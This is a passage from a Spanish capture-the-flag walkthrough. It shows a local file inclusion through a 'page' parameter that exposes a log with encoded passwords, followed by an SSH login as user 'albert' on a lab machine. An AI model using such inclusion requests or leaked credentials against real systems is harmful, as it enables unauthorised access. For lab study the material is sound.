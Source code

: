 Como alternativa, podemos darnos cuenta en el apartado de welcome que se acepta un parámetro `page` (`?page=welcome`) el cual podemos usar para acceder a `logs.txt` de la siguiente manera:

```
http://172.17.0.2/index.php?page=logs/logs.txt
```

Y veremos lo siguiente:

    [2024-03-29 12:04:12] ERROR: Login failed for user 'root' [2024-03-29 12:04:12] 
    DEBUG: Trying password 'YWRtaW4xMjM=' [2024-03-29 12:04:13] 
    ERROR: Login failed for user 'admin' [2024-03-29 12:04:14] 
    DEBUG: Trying password 'dGVzdDEyMw==' [2024-03-29 12:04:16] 
    ERROR: Login failed for user 'test' [2024-03-29 12:04:18] 
    DEBUG: Login failed from IP 10.10.14.8 [2024-03-29 12:04:19] 
    EBUG: Login failed from IP 10.10.14.9 [2024-03-29 12:04:20] 
    DEBUG: Login failed from IP 10.10.14.10 [2024-03-29 12:04:21] 
    DEBUG: Login failed from IP 10.10.14.11 [2024-03-29 12:04:22] 
    WARNING: Too many login attempts [2024-03-29 12:04:23] 
    ERROR: Login attempt for user 'albert' [2024-03-29 12:04:24] 
    DEBUG: Trying password 'NGxiM3J0MTIz' [2024-03-29 12:04:25] 
    SUCCESS: Auth success for user 'albert' [2024-03-29 12:04:26] 
    DEBUG: Session token issued: 38b2fdcbffe78b9989f3e [2024-03-29 12:04:27] 
    DEBUG: SSH connection established from 10.10.14.8 [2024-03-29 12:04:28] 
    DEBUG: User 'albert' added to sudo group [2024-03-29 12:04:29] 
    DEBUG: File accessed: /var/www/html/index.php?page=welcome [2024-03-29 12:04:30] 
    DEBUG: File accessed: /etc/passwd [2024-03-29 12:04:31] 
    DEBUG: File accessed: /var/log/auth.log [2024-03-29 12:04:32] 
    DEBUG: File accessed: /var/www/html/login.php [2024-03-29 12:04:33] 
    DEBUG: File accessed: /var/www/html/logs/logs.txt [2024-03-29 12:04:34] 
    WARNING: Potential exposure of file logs.txt [2024-03-29 12:04:35] 
    WARNING: logs.txt contains sensitive authentication data [2024-03-29 12:04:36] [!!!] 
    SECURITY ALERT: logs/logs.txt is PUBLICLY EXPOSED [2024-03-29 12:04:37] [!!!] Use this file with caution credentials may be compromised 

Al ver los logs podemos ver que hubo una autenticacion exitosa con un usuario "albert" con contrasenia "NGxiM3J0MTIz", el cual podriamos intentar acceder con SSH

    albert@172.17.0.2

Insertamos la contrasenia y logramos acceso a la terminal

    albert@172.17.0.2's password: 
    Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.12.38+kali-amd64 x86_64)

    * Documentation:  https://help.ubuntu.com
    * Management:     https://landscape.canonical.com
    * Support:        https://ubuntu.com/pro

    This system has been minimized by removing packages and content that are
    not required on a system that users do not log into.

    To restore this content, you can run the 'unminimize' command.
    Last login: Thu May 22 13:43:28 2025 from 172.17.0.1
    albert@6c657e793f58:~$ 
